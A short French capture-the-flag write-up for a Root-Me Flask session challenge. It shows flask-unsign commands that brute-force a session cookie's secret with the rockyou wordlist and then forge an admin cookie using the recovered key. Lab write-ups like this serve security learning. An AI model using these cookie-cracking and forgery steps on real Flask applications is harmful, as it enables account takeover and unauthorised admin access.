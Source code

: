 Le challenge https://www.root-me.org/fr/Challenges/Web-Serveur/Flask-Unsecure-session


Exploit sur flask vu ici https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-web/flask.html

D'abord quésako ? 

flask est un framework qui permet de faire des sites en python 

Le cookie par défaut est session 
grace à ça on peut décoder
https://www.kirsle.net/wizards/flask-session.cgi

Maintenant on va utiliser unsign 
pip3 install flask-unsign


On va brute force notre cookie 
 flask-unsign --wordlist rockyou.txt --unsign --cookie 'eyJhZG1pbiI6ImZhbHNlIiwidXNlcm5hbWUiOiJndWVzdCJ9.aFxxNQ.I-ZNlMtcgkFW8taLeTn2WSxCMSg' --no-literal-eval

 On va trouver un mdp 

 On pourra générer notre propre cookie 
 flask-unsign --sign --cookie "{'admin':'true','username':'admin'}" --secret "b's3cr3t'"

 On remplace le cookie et pouf le flag 

